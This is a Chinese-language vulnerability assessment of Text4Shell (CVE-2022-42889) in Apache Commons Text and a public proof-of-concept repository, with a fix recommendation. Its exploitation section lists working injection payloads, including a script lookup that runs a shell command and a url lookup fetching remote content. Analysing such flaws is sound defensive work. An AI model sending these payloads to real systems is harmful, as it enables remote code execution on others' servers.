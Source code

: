 ## CVE-2022-42889 - Apache Commons Text RCE (Text4Shell)

**漏洞编号:** CVE-2022-42889

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Commons Text

**危害等级:** 高危，允许未经身份验证的攻击者执行任意代码

**影响版本:** <= 1.9

**利用条件:** 应用程序必须使用受影响版本的Apache Commons Text，并且允许用户控制的输入传递给StringSubstitutor进行插值。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2022-42889 (Text4Shell) 是 Apache Commons Text 库中的一个漏洞，允许攻击者通过操纵传递给 `StringSubstitutor` 的输入来执行任意代码。漏洞存在于1.5到1.9版本中。升级到1.10.0及以上版本可以解决此问题，因为该版本默认禁用了有问题的插值器，或者禁用受影响的lookup，例如`script`, `dns`, `url`。

**有效性：**
根据漏洞描述和搜索结果，提供的POC代码（尤其是 `src/main/java/org/dontpanic/text4shell/controller/ExploitMeController.java` 文件）旨在演示此漏洞。`ExploitMeController` 中的 `/lookup` 端点接收用户提供的 `value`，并将其直接传递给 `StringSubstitutor.replace()` 方法，而没有进行任何清理或验证。这允许攻击者注入恶意表达式，例如`${script:javascript:Runtime.getRuntime().exec("command")}`，从而导致远程代码执行。

**投毒风险：**
提供的代码主要是漏洞利用的演示，旨在重现和展示 CVE-2022-42889。虽然代码本身并没有明显的恶意或后门性质，但存在一些小的风险。由于整个仓库的目的就是为了演示漏洞，如果有人下载并部署了这个应用，并将其暴露在公网上，那么它会立即成为攻击目标。因此，可以认为存在很低的投毒风险 (约5%)，因为作者可能故意提供一个容易被利用的环境，但不是传统意义上的“投毒”，而是漏洞演示的副产品。

**利用方式：**
1.  **目标系统：** 目标系统需要运行使用了 Apache Commons Text 1.5 到 1.9 版本的应用程序。
2.  **输入注入：** 攻击者需要找到一个应用程序接口，该接口允许用户提供输入，然后应用程序使用受影响的 Apache Commons Text 版本对该输入进行插值处理。例如，在提供的 POC 中，`/lookup` 端点就是一个这样的接口。
3.  **构造恶意Payload：**  攻击者需要构造一个包含恶意表达式的Payload，该表达式利用了 `script`, `dns`, 或 `url` lookup 来执行代码或进行其他恶意操作。示例Payload：
    *   `${script:javascript:Runtime.getRuntime().exec('touch /tmp/pwned')}` - 执行任意命令 (例如，创建一个文件)。
    *   `${dns:address|example.com}` - 执行 DNS 查询。
    *   `${url:UTF-8:https://example.com/evil.txt}` - 从远程 URL 加载内容。
4.  **发送Payload：**  攻击者将构造的Payload发送到目标应用程序的易受攻击的接口。
5.  **代码执行：**  如果应用程序使用 `StringSubstitutor` 处理Payload，它将执行Payload中的恶意表达式，从而导致远程代码执行或其它恶意行为。


**项目地址:** [hotblac/text4shell](https://github.com/hotblac/text4shell)

**漏洞详情:** [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)